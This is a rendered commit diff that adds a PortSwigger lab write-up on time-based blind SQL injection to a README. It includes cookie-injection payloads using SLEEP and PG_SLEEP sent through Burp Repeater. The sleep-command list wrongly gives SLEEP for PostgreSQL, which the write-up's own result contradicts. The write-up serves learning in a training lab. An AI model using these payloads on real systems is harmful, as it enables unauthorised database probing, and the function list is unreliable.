

Before and after one commit to horouuu/portswigger, a Markdown page: sql-injection/README.md, the part around the change. Shown at 90% size. Drawn GitHub-style; pictures changed too: sql-injection/sleep.png (added); blank space fills up the shorter version.

Commit message:
add: 14 - sleep

````diff
--- a/sql-injection/README.md
+++ b/sql-injection/README.md
@@ -534,3 +534,39 @@ For which the application returns the following error:
 We use `LIMIT 1` because the account `administrator` is likely to be at the top in the context of this lab. However, in production environments this may not work and we may need other means of exfiltrating the `administrator` account's details.
 
 With the above password, I logged into the `administrator` account and the lab was finished.
+
+---
+
+## 14. Blind SQL injection with time delays
+<img src="./sleep.png" width=400>
+
+### Description
+The lab featured a vulnerable application that did not respond with query results or errors. To complete the lab, one must invoke a time delay on the server side using a SQL query.
+
+The analytics cookie used in this lab was `qXdVxOlcKhKnLufi`.
+
+### Solution
+This one was rather straight forward. First I found different sleep commands for different DB versions:
+>```
+> MySQL - SLEEP(s)
+> PostgreSQL - SLEEP(s)
+> Oracle - DBMS_SESSION.SLEEP(s)
+>```
+
+All that was left to do was to try them sequentially as a concatenation to the result of the cookie query, using BurpSuite Repeater:
+>```sql
+> SELECT SLEEP(10)
+> >>>
+> qXdVxOlcKhKnLufi'||(SELECT+SLEEP(10))+--+
+>```
+
+The above did not work. However, eventually I tried:
+>```sql
+> SELECT PG_SLEEP(10)
+> >>>
+> qXdVxOlcKhKnLufi'||(SELECT+PG_SLEEP(10))+--+
+>```
+
+Which incurred a 10-second delay before getting the response from the server. This also means that the underlying DB was PostgreSQL.
+
+Upon checking the lab status, it was indeed finished. So, lab complete!
````
